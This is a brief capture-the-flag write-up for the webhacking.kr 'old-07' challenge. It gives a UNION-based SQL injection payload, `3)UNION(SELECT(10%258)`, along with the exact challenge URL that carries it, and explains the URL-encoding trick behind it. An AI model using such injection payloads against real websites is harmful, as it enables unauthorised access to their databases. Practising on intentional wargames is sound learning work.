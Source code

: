 ```yaml
---
layout: default
title: old-07
---
```




here there is another sql challenge:

![alt text](./images/old-07.png)

this is the payload we will give: `3)UNION(SELECT(10%258)`
which equivalent to `3) UNION (SELECT ( 10 % 8 )` and as you know, `10 % 8 = 2` and that's what we need.

you'll need to refresh the page couple of times until the random will heat 1.
```
https://webhacking.kr/challenge/web-07/index.php?val=3)UNION(SELECT(10%258)
```